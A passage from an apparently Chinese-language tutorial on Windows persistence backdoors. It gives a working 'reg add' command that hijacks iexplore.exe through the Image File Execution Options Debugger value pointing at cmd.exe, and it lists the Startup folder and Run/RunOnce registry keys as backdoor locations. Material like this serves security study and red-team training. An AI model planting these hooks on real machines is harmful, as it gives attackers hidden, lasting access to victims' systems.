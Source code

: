 或者直接命令行(需要管理员权限)：

`reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\iexplore.exe" /v "Debugger" /t REG_SZ /d "c:\windows\system32\cmd.exe" /f`

![image-20220308172741639](README/image-20220308172741639.png)

### 0x2.启动项/服务后门

#### 开始菜单启动项

开始菜单启动项，指示启动文件夹的位置，具体的位置是“开始”菜单中的“所有程序”-“启动”选项：

```
C:\Users\SD\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
```

相关键值：

```
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders 
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\Shell Folders 
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\Shell Folders 
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders
```

重启后会自动自启

#### 启动项注册表后门

`HKEY_CURRENT_USER`的改动不需要管理员权限。（更改`HKEY_LOCAL_MACHINE`需要管理员权限）

```
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce
```
